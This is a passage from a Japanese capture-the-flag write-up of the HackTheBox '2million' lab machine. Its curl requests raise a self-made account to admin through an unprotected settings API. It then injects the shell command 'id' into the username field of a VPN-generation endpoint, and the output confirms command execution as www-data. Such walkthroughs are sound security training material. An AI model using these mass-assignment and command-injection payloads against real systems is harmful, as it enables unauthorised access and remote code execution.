 が返ってきたので、Content-Typeに応じてJSONでデータを送信してみる。

```shell
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=rvd3usgqn4ol8893tgmqs19f6r" -v -H "Content-Type:application/json" -d '{"email":"kali@mozzila.mail"}'
```

とすると、今度は

```json
{"status":"danger","message":"Missing parameter: is_admin"}  
```

が返ってきた。同じ要領で`"is_admin":"true"`を渡すと1か0で渡すよう言われるのでそうする。結果次のように帰ってきた

```json
{"id":24,"username":"kali","is_admin":1} 
```

id24のkali(自分で作ったアカウント)のis_adminが1になったので権限昇格できていそう。

`http://2million.htb/api/v1/admin/auth`を叩くと確かにtrueが返される。

admin専用のAPIを叩きに行く。

```shell
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=rvd3usgqn4ol8893tgmqs19f6r" -H "Content-Type:application/json" -d '{"username":"kali"}' > ./Desktop/2mililon.ovpn
```

これでVPNの接続情報が返された。ここで返された内容の次の部分に注目すると、入力したユーザ名kaliが中身に記述されている

```txt
<cert>
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=UK, ST=London, L=London, O=HackTheBox, OU=VPN, CN=2million/emailAddress=info@hackthebox.eu
        Validity
            Not Before: Jul  6 07:37:40 2025 GMT
            Not After : Jul  6 07:37:40 2026 GMT
        Subject: C=GB, ST=London, L=London, O=kali, CN=kali
        Subject Public Key Info:
```

このファイルの生成にPHPのexecなりが使用されているならOS command injectionを狙える。

```shell
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=rvd3usgqn4ol8893tgmqs19f6r" -H "Content-Type:application/json" -d '{"username":"kali;id;"}' > ./Desktop/2million.ovpn
```

で編集されたファイルを確認すると

```txt
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
